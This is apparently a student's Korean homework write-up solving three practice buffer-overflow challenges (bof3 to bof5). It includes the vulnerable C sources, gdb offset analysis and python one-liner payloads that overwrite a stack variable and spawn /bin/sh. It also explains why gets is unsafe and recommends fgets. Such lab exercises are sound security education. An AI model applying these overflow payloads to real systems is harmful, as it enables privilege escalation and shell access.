

# Report. HW6.

## 들어가기 전...
gcc로 `gets`가 들어간 코드를 컴파일하면 

    warning: the 'gets' function is dangerous and should not be used.
    
라는 경고문을 띄운다(오류는 아니라서 실행파일이 만들어지긴 한다). 지금 우리가 하는 `bof` 시리즈들이 모두 이 `gets`가 그 안에 넘겨줄 문자열의 크기를 넘어서서 다른 값들을 바꾸는 것들인데, 이것과 관련이 있는 게 아닐까 싶다. Microsoft Visual C/C++에서 `scanf` 대신 `scanf_s` 함수를 사용하라고 하는 것도 비슷한 이유로 보인다.

`gcc`로 컴파일할 때, 콘솔에서 문자열을 입력받으려면 `gets` 대신에 `fgets`를 쓰면 될 것이다. 이 친구는 

    char* fgets(char* str, int num, FILE* stream);
    
...의 형태로, 원래 `gets`에서 `str`만 받던 것에 비해 받을 문자열의 길이와 입력받을 위치(포인터 형태)를 추가로 제시해주어야 한다. 지금까지의 `bof`에선 `buf`의 크기가 128이었으니...

    gets(buf);
    
...대신에,

    fgets(buf, 128, stdin);
    
...이 들어간다면 BOF

## `bof5`

<details><summary>`bof5.c`</summary>
<p>
    
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define G "\033[32m"
#define Y "\033[33m"
#define E "\033[0m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];
    
    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent == KEY) {
        if (setreuid(1006, 1006)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1006, 1006)) {
            perror("setgid");
            exit(1);
        }
        system(buf);
    }
}

int main(){
    vuln();
    return 0;
}
```

</p></details>

### 이전과의 차이점
- `bof4`는 argument로 문자열을 넘겨주었지만, 이번엔 *프로그램 내 입력*을 통하여 문자열을 넘겨주어야 한다.
- `system("/bin/sh")`을 통하여 BOF가 발생했을 경우 그 안에서 쉘을 실행하는 구문이 이번엔 `system(buf)`으로 바뀌었다. 그러니까, *입력을 통해* `/bin/sh`을 실행하여야 한다.

### 진행
그래서... 이번에도 `buf`와 `innocent` 간에 거리가 얼만큼 되는지 알아보아야 한다.

문자열을 입력받는 `gets`

    0x555555555244  <vuln+27>       lea rax, [rbp-0x90]
    0x55555555524b  <vuln+34>       mov rdi, rax
    0x55555555524e  <vuln+37>       mov eax, 0x0
    0x555555555253  <vuln+42>       call 0x5555555550f0 <gets@plt>
    
... 부분에서, `$rdi`가 가리키는 주소 `$rbp - 0x90` 주소를 찾아보니 주소값 `0x00007fffffffe400`이 나왔다. 여기가 `buf`의 시작주소일 것이다.

그리고 `innocent`와 `KEY`를 비교하는 부분

    0x555555555273  <vuln+74>       cmp DWORD PTR [rbp-0x4], 0x12345678
    
...에서 `innocent`가 있는 주소값 `$rbp - 0x4`가 가리키는 곳을 찾아보니 주소값 `0x00007fffffffe48c`가 나왔다. `buf`에서 **140** 만큼의 주소값 차이가 존재한다. 그러니까... `gets`를 통해 140글자를 입력하고 뒤에 `KEY` 값을 넣어줘야 `innocent == KEY`가 `true`가 되어 그 안에 있는 코드가 실행될 것이다.

입력할 때 앞에 "/bin/sh; "를 붙여주자(그래야 쉘이 안에서 실행된다). 그리고... 중간에 있는 내용들은 #로 채워놓자(그래야 쉘이 실행되고 아무것도 실행하지 않게 - 중간에 채워놓은 #들 때문에 주석처리가 되어 아무것도 실행을 하지 않게 - 된다. 그 다음에 `innocent`에 들어갈 비교값 `0x12345678`을 **little-endian** 방식으로 입력을 시켜주고.

위의 말을 코드로 바꾸면, `"python -c ('/bin/sh; ' + '#' * 131 + '\x78\x56\x34\x12')"`의 결과물을 `bof5`의 입력값으로 주면 될 것이다.


성공했다. (`bof6` 비밀번호는 일부러 잘랐다)


## `bof3`

<details><summary>bof3.c</summary>
<p>

```c
// AFTER => bof2.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x61
#define G "\033[32m"
#define E "\033[0m"
#define Y "\033[33m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent  == KEY) {
        if (setreuid(UID_BOF4, UID_BOF4)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(UID_BOF4, UID_BOF4)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(){
    vuln();
    return 0;
}
```

</p></details>

`bof5`를 먼저 작성하고 `bof3`을 보았더니 `KEY`와 `system("/bin/sh")` 부분을 제외하고 다른 부분이 없...다. 그래서 풀이 방법도 비슷하다고 생각했는데, 우선... `innocent`와 `buf`의 주소값을 알아보자.

`bof5` 때와 같은 부분에서 `gets`가 참고하는 `$rdi`가 가리키는 주소 `$rbp - 0x90`의 주소값은 `0x00007fffffffe400`이 나왔고, `innocent`와 `KEY`를 비교하는 부분에서 `$rbp - 0x4`의 주소값으로 `0x00007fffffffe48c`가 나왔다. 여기도 동일하게 주소값 차이는 140이 나왔고.

`KEY`는 `0x61`... 그러니까 `0x00000061`인데, little-endian 방식으로라면 `\x00\x00\x00\x61`이 아니라 그냥 `\x61`만 주면 될 것이다.

위의 말을 코드로 바꾸면, `"python -c ('a' * 141)"`의 결과물을 `bof3`의 입력값으로 주면 될 것이다. (`0x61`은 소문자 `a`)



성공했다.


## `bof4`

<details><summary>bof4.c</summary>
<p>

```c
// AFTER => bof3.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define R "\033[31m"
#define E "\033[0m"

void vuln(char * arg) {
    int innocent;
    char buf[BUF_SIZE];

    strcpy(buf, arg);
    printf("Hello %s!\n", buf);

    if (innocent == KEY) {
        if (setreuid(UID_BOF5, UID_BOF5)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(UID_BOF5, UID_BOF5)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(int argc, char *argv[]){
    if (argc < 2) {
        fputs(R "error :( this program needs some arguments\n" E, stderr);
        return 1;
    }
    vuln(argv[1]);
    return 0;
}
```

</p></details>

`bof3`과는...
- 프로그램 내 입력이 아닌, 프로그램의 argument로 번호를 넘겨주게 된다.
- 키값이 달라졌다.
...의 차이가 있고, `bof5`과는...
- 프로그램 내 입력이 아닌, 프로그램의 argument로 번호를 넘겨주게 된다.
- `system` 안도 내가 쉘 경로를 줘야하진 않고, `innocent`만 바꾸는 데에 성공하면 쉘을 실행하게 된다.
...의 차이가 있다.

일단 똑같이 **BOF**를 통해 `innocent`에 값을 넘겨줘야 할 텐데... 주소값을 확인해 보자.

    0x555555555246  <vuln+29>       lea rax, [rbp-0x90]
    0x55555555524d  <vuln+36>       mov rsi, rax
    0x555555555250  <vuln+39>       mov rdi, rax
    0x555555555253  <vuln+42>       call 0x5555555550c0 <strcpy@plt>
    
...에서 `buf`의 첫번째 부분에 해당하는 `$rbp-0x90`이 가리키는 주소를 보았더니 주소값 `0x00007fffffffe3f0`이 나왔다. 그리고...

    0x555555555273  <vuln+74>       cmp DWORD PTR [rbp-0x4], 0x12345678

...에서 `innocent`의 주소값을 보았더니 `0x00007fffffffe47c`가 나왔다. 여기도 `buf`와 `innocent` 간에 140의 주소값 차이가 있었다.

140개의 더미 문자들을 주고 little-endian 방식으로 `0x12345678`을 주려고 한다면 `python -c "print ('a' * 140 + '\x78\x56\x34\x12')"`의 출력물을 argument로 넘겨주면 될 것 같다.


성공했다.

# -- END --

